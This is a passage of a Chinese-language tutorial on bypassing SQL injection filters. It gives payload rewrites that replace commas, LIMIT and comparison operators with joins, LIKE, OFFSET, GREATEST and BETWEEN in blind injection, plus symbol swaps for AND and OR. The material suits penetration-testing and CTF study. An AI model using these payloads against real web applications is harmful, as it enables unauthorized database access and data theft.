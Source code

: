 ```sql
union select 1,2;
# 等价于
union select * from (select 1)a join (select 2)b;
```

使用 like：

```sql
select ascii(mid(user(),1,1))=80;
# 等价于
select user() like 'r%';
```

对于`limit`可以使用 `offset`来绕过：

```sql
select * from news limit 0,1;
# 等价于
select * from news limit 1 offset 0;
```

### 比较绕过

过滤了`<>`：sqlmap 盲注经常使用 <>，使用 between 的脚本：同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到 greatest 来进行绕过了。最常见的一个盲注的 sql 语句：

```sql
select * from users where id=1 and ascii(substr(database(),0,1))>64;
```

此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用`greatest`来代替比较操作符了。

::: tip

GREATEST

```sql
GREATEST(X1, X2, X3, ...);
```

该方法接受语法中的 N 个参数，它返回最大值。

:::

上面的 sql 语句可以变成：

```sql
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64;
```

使用`between and`。

### 符号绕过

or and xor not绕过：

```sql
and=&&  or=||   xor=|   not=! 
```